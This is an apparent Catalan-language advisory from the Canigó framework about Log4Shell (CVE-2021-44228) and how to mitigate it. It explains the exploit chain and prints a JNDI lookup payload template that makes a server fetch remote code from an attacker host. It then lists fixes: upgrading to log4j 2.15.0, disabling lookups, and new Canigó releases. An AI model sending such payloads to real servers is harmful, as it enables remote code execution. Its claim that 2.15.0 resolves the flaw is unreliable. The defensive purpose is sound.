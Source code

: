 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable, sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://github.com/YfryTchsGD/Log4jAttackSurface> \
* <https://github.com/christophetd/log4shell-vulnerable-app> \
* <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
* <https://www.randori.com/blog/cve-2021-44228/>

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

    - 1.1) Modificar el fitxer `pom.xml` - **opció recomanada** -, tornar a compilar i desplegar l'aplicació:
```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

    - 1.2) Injectar la variable durant la construcció de l'aplicació, tornar a compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

* **Opció 2**) Configurar la variable `log4j2.formatMsgNoLookups` en temps d'execució.

    - 2.1) Injectar la variable (vàlid per a: 2.10 >= log4j <= 2.14.1) i tornar a desplegar l'aplicació:
```sh
mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
```

    - 2.2) Afegir una variable d'entorn (vàlid per a: 2.10 >= log4j <= 2.14.1) i tornar a desplegar l'aplicació. Veure: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/.
```sh
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
--env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
canigo/app
```

* **Opció 3**) Modificar el patró de traces configurades al fitxer `log4j.xml` (vàlid per a: 2.7 >= log4j <= 2.14.1) i tornar a compilar i desplegar l'aplicació. Veure: https://kb.vmware.com/s/article/87093.
```sh
## canviar:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
## per:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
```

## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.15.0 de log4j:

```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.15.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó al servei CAN del JIRA CSTD o enviant-nos un correu electrònic a la bústia del CS Canigó.
